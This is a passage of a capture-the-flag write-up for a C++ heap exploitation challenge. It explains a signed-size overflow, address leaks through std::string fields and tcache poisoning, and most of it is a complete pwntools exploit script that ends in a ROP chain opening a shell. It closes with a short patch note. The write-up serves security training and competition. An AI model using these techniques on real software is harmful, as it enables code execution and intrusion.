

the return value is `0x1337133713371337` so I just simply set the sum as `0x1337133713371337` :) 

So just overflowing the name to leak heap, pie address (through vtable of the object).



The `std::string` object has 3 attributes: data, size and capacity. I just change the `std::string.data` to a `GOT` pointer to leak the libc.

```python
add(4, b'@'*0x10, 1, [b'AAAAA'], is_Photo=True,
    width=65280, height=65280, photoData=p64(0x1337133713371337)*(0x908//8)+p64(heap+0x14e50) + p64(heap+0x14e70)*2+p64(0x31)+p64(e.got.printf)+p64(0x8)+p64(0))
```

Also changing it to `environ` to leak the stack:

```python
add(5, b'#'*0x10, 1, [b'AAAAA'], is_Photo=True,
    width=65280, height=65280, photoData=p64(0x1337133713371337)*(0x908//8)+p64(heap+0x157e0) + p64(heap+0x157e0+0x20)*2+p64(0x31)+p64(libc.sym.environ)+p64(0x8)+p64(0))
```

For now, tcache poisoning to rop is a bit hard challenge.



I make the 0x90-tcache link-list point to a stack address, but when std::string allocator will delete it to reallocate a bigger chunk.


After debugging, I decided to overwrite `std::basic_istream<char, std::char_traits<char> >& std::operator>><char, std::char_traits<char>, std::allocator<char> >(std::basic_istream<char, std::char_traits<char> >&, std::__cxx11::basic_string<char, std::char_traits<char>, std::allocator<char> >&)`'s return address.

This function is the function that copies the input buffer to the string buffer. Its caller is going to delete the string buffer (  now the stack address ) after it returns.

Overwriting its return address will help us avoid to free stack address.

Script:

```python
#!/usr/bin/env python
from pwn import *
from time import sleep

context.binary = e = ELF("prob_patched")
libc = ELF("./libc.so.6")
gs = """
# brva 0x002A18
brva 0x35F6 
"""

def start():
    if args.LOCAL:
        p = e.process()

    elif args.REMOTE:  # python x.py REMOTE <host> <port>
        host_port = sys.argv[1:]
        p = remote(host_port[0], int(host_port[1]))
    return p

p = start()

def add(idx, name, topic_cnt, topic: list, is_Photo=False, width=0, height=0, photoData=b'', exploit=False):
    p.sendlineafter(b"input:", b"1")
    p.sendlineafter(b"idx? ", str(idx).encode())
    p.sendlineafter(b"name? ", name)
    p.sendlineafter(b"topic cnt? ", str(topic_cnt).encode())

    for i in range(topic_cnt):
        p.sendlineafter(b'topic> ', topic[i])

    if exploit:
        return

    p.recvuntil(b'wanna upload photo? ')
    if is_Photo and width and height:
        p.sendline(b'y')
        p.sendlineafter(b'width? ', str(width).encode())
        p.sendlineafter(b'height? ', str(height).encode())
        p.sendafter(b'reading photo below>>', photoData)
    else:
        p.sendline(b'n')

def show():
    p.sendlineafter(b"input:", b"2")

def remove(idx):
    p.sendlineafter(b"input:", b"3")
    p.sendlineafter(b"idx? ", str(idx).encode())

add(0, b'A'*0x10, 1, [b'AAAAA'], is_Photo=True,
    width=47, height=1, photoData=b'X'*47)

add(1, b'B'*0x10, 1, [b'AAAAA'], is_Photo=True,
    width=47, height=1, photoData=b'X'*47)

add(2, b'C'*0x10, 1, [b'AAAAA'], is_Photo=True,
    width=47, height=1, photoData=b'X'*47)

add(3, b'D'*0x10, 1, [b'AAAAA'], is_Photo=True,
    width=47, height=1, photoData=b'X'*47)

add(4, b'D'*0x10, 1, [b'AAAAA'], is_Photo=True,
    width=47, height=1, photoData=b'X'*47)

add(5, b'5'*0x10, 1, [b'A'*0x80], is_Photo=True,
    width=47, height=1, photoData=b'X'*47)

add(6, b'6'*0x10, 1, [b'A'*0x80], is_Photo=True,
    width=47, height=1, photoData=b'X'*47)

remove(0)

add(0, b'A'*0x10, 1, [b'AAAAA'], is_Photo=True,
    width=65280, height=65280, photoData=p64(0x1337133713371337)*(0x908//8))

p.recvuntil(p64(0x1337133713371337)*(0x908//8))
heap = u64(p.recv(6)+b'\0\0') - 0x12810
log.info("heap: "+hex(heap))

remove(2)
add(2, b'A'*0x10, 1, [b'AAAAA'], is_Photo=True,
    width=65280, height=65280, photoData=p64(0x1337133713371337)*(0x958//8))

p.recvuntil(p64(0x1337133713371337)*(0x958//8))
e.address = u64(p.recv(6)+b'\0\0') - 0x7c80
log.info("pie: " + hex(e.address))

remove(4)
add(4, b'@'*0x10, 1, [b'AAAAA'], is_Photo=True,
    width=65280, height=65280, photoData=p64(0x1337133713371337)*(0x908//8)+p64(heap+0x14e50) + p64(heap+0x14e70)*2+p64(0x31)+p64(e.got.printf)+p64(0x8)+p64(0))

show()

p.recvuntil(b'@'*0x10)
p.recvuntil(b'(topic list)\n')

libc.address = u64(p.recv(8)) - libc.sym.printf
log.info("libc @ " + hex(libc.address))

p.sendline(b"1")

remove(5)

addr = heap+0x14eb8

pl = p64(libc.address+0xebcf5)*3
pl = pl.ljust(0x920)

add(5, b'#'*0x10, 1, [b'AAAAA'], is_Photo=True,
    width=65280, height=65280, photoData=p64(0x1337133713371337)*(0x908//8)+p64(heap+0x157e0) + p64(heap+0x157e0+0x20)*2+p64(0x31)+p64(libc.sym.environ)+p64(0x8)+p64(0))

show()
p.recvuntil(b'(################ logo)\n')
p.recvuntil(b'(topic list)\n')
stack = u64(p.recv(8))
log.info("stack : " + hex(stack))

p.sendline(b'1')
remove(6)

return_addr = stack - 0x1d0
target_chunk = heap + 0x16380

_ = b'\0'*0x20+p64(next(libc.search(b'/bin/sh'))) + \
    b'\0'*0x100 + p64(heap+0x15a48)
_ = _.ljust(0x918, b'\0')

add(6, b'#'*0x10, 0, [b'AAAAA'], is_Photo=True,
    width=65280, height=65280, photoData=_ + p64(0) + p64(0x31) + p64((heap+0x16350) >> 12) + p64(0)*4+p64(0x91) + p64((target_chunk >> 12) ^ (return_addr - 0x28)))

if args.GDB:
    gdb.attach(p, gdbscript=gs)
    pause()

add(7, b'7'*0x10, 1, [b'A'*0x80])

rop = p64(heap+0x15a48+0x50)*5 + p64(libc.address+0x000000000002be51) + p64(0) + \
    p64(libc.address+0x0000000000149ac9) + p64(libc.address+0xebcf8)
rop = rop.ljust(0x50, b'A')
add(8, b'8'*0x10, 1, [rop], exploit=True)
p.sendline(b"cat flag")

p.interactive()

```

* Patch:

Just changing weight and height to unsigned, we can avoid that bug:




# Epilogue:

ACS PWN challenges are so good and so hard.

Thank @Pwn9uin and @d0now for creating good challenges.

